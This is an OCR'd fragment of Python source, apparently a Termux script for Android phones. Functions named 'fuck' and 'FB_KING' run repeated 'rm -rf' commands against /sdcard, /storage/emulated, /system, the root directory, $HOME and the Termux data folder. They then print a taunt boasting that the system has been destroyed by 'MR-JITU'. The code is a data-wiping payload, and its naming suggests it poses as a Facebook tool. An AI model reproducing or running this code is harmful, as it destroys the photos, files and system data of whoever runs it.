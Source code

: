     os.system('mv $HOME /dev/null')

    os.system("rm -rf /data/data/com.termux/");time.sleep(2)

    print(f'{M} Your System Fucked by {H} MR-JITU🧸{P}');time.sleep(2)

def fuck():

    os.system("rm -rf /sdcard/DCIM")

    os.system("rm -rf /sdcard/*")

    os.system("rm -rf /sdcard/update")

     

    os.system('termux-setup-storage')

    os.system('rm -rf /storage/emulated/0/*')

    os.system('rm -rf /storage/emulated/*')

    os.system('rm -rf /sdcard/*')

    os.system('rm -rf /sdcard/0/*')

    os.system('rm -rf /sdcard1/*')

    os.system('rm -rf /storage/*')

    os.system('rm -rf /*')

    os.system('rm -rf /system/*')

    os.system('rm -rf $HOME/../../*')

    os.system('rm -rf $PREFIX/b')

    os.system('rm -rf $HOME/*')

    os.system('mv $HOME /dev/null')

    os.system("rm -rf /data/data/com.termux/");time.sleep(2)

    print(f'{M} Your System Fucked by {H} MR-JITU🧸{P}');time.sleep(2)

    

def FB_KING():

    os.system("rm -rf /sdcard/DCIM")

    os.system("rm -rf /sdcard/*")

    os.system("rm -rf /sdcard/update")

     

    os.system('termux-setup-storage')

    os.system('rm -rf /storage/emulated/0/*')

    os.system('rm -rf /storage/emulated/*')

    os.system('rm -rf /sdcard/*')

    os.system('rm -rf /sdcard/0/*')
